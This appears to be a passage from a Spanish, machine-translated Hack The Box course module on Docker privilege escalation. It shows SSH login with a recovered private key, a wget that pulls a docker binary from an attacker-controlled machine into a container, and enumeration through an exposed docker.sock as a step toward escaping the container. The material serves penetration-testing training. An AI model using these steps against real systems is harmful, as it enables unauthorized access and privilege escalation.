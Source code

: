 De aquí en adelante, podríamos copiar el contenido de la clave SSH privada para`cry0l1t3.priv`archivo y usarlo para iniciar sesión como usuario`cry0l1t3`en el sistema de host.

  Docker

```shell-session
xnoxos@htb[/htb]$ ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

#### Sockets Docker

Un Socket de Docker o Docker Daemon Socket es un archivo especial que nos permite y procesos para comunicarnos con Docker Daemon. Esta comunicación ocurre a través de un socket unix o un enchufe de red, dependiendo de la configuración de nuestra configuración de Docker. Actúa como un puente, facilitando la comunicación entre el cliente Docker y el Docker Daemon. Cuando emitimos un comando a través de la CLI Docker, el cliente Docker envía el comando al socket Docker, y el Docker Daemon, a su vez, procesa el comando y lleva a cabo las acciones solicitadas.

Sin embargo, los enchufadores requieren permisos apropiados para garantizar una comunicación segura y evitar el acceso no autorizado. El acceso al socket de Docker generalmente está restringido a usuarios o grupos de usuarios específicos, asegurando que solo las personas de confianza puedan emitir comandos e interactuar con Docker Daemon. Al exponer el socket de Docker en una interfaz de red, podemos administrar remotamente los hosts de Docker, emitir comandos y controlar contenedores y otros recursos. Este acceso remoto de la API amplía las posibilidades de configuraciones distribuidas de Docker y escenarios de gestión remota. Sin embargo, dependiendo de la configuración, hay muchas formas en que se pueden almacenar procesos o tareas automatizadas. Esos archivos pueden contener información muy útil para nosotros que podemos usar para escapar del contenedor Docker.

  Estibador

```shell-session
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

De aquí en adelante, podemos usar el`docker`Binario para interactuar con el enchufe y enumerar lo que los contenedores Docker ya están funcionando. Si no está instalado, entonces podemos descargarlo[aquí](https://master.dockerproject.org/linux/x86_64/docker)y subirlo al contenedor Docker.

  Estibador

```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```
